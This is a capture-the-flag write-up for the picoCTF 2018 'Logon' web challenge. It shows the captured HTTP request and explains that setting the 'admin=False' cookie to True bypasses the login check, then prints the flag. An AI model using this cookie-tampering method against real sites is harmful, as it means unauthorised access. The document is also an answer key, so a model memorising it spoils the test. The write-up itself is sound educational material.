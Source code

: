 # Logon

__PROBLEM__

I made a website so now you can log on to! I don't seem to have the admin password. See if you can't get to the flag. http://2018shell1.picoctf.com:57252 ([link](http://2018shell1.picoctf.com:57252))

__HINT__

Hmm it doesn't seem to check anyone's password, except for admins?

How does check the admin's password?

__SOLUTION__

When go onto the website there is a form. Put both username and password as `admins` and then you'll be in but you won't be able to see the flag.

![alt text](Logon-no-flag.png)

Now if we see the take a look at all the `HEADER` that were sent:

```
GET http://2018shell1.picoctf.com:57252/flag

Host: 2018shell1.picoctf.com:57252
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://2018shell1.picoctf.com:57252/
Cookie: _ga=GA1.2.1358856657.1538543367; _gid=GA1.2.405926894.1539489227; password=admins; username=admins; admin=False
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

We see that in the above request it is sending `admin=False` so what if we change it to `True`, just edit those header and re-send the request and BOOM!!

FLAG - `picoCTF{l0g1ns_ar3nt_r34l_2a968c11}`
